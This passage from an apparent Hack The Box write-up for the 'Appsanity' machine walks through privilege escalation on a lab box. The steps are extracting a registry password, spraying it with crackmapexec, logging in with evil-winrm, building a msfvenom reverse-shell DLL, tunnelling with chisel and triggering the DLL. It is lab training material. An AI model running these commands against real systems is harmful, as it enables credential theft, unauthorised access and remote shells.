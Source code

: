 ```markdwon
c:\inetpub\ExaminationPanel\ExaminationPanel\bin\ExaminationManagement.dll
```
This can be decompiled with dnspy, where we find several calls to a registry key `software\meddigi`

![appsanity9](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/8543a22f-208d-49cd-a1ec-11fe4ef65bb4)

Next step is to query the register. You can find a password in key HKEY_LOCAL_MACHINE\software\meddigi. The password is `1g0tTh3R3m3dy!!`

![appsanity10](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b4918add-8efe-4b55-9c1d-d3413958529d)

If you spray the password with crackmapexec you find the credentials work for user `devdoc:1g0tTh3R3m3dy!!`. Use the local users list we have previously enumerated.
```markdown
evil-winrm -u devdoc -p '1g0tTh3R3m3dy!!' -i meddigi.htb
```
Turns out that under this user's context we can browse this folder.
```markdown
c:\program files\reportmanagement
```
Where we find the file `reportmanagement.exe`. Reversing the binary with ghidra, we find out it uses dll files placed in the "libraries" folder.

![appsanity11](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/8b48711c-ba60-4fbf-a1e9-321520ec5b1e)

 So our next step is to place a malicious dll in that folder. This payload can be generated with `msfvenom`
```markdown
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.xxx.xxx lport=9001 -f dll -a x64 --platform windows > externalupload.dll
```
Investigating how to launch the process, we discover the it is internally running on port 100.
```markdown
> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:100            0.0.0.0:0              LISTENING       4432
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       904
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       1196
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
```
To forward this port to our attacking machine we use chisel.
```markdown
> ./chisel64 server -p 8000 --reverse
> .\chisel64.exe client 10.10.xxx.xxx:8000 R:100:127.0.0.1:100
```
![appsanity12](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/c159af4d-a929-479f-96a2-e7a985021e82)

In order to trigger the reverse shell, just execute the "upload" feature in the running port. The application calls the malicious dll and the shell is received.

![appsanity13](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/aa441c3b-413a-45f3-a7dc-f0ad841d5419)
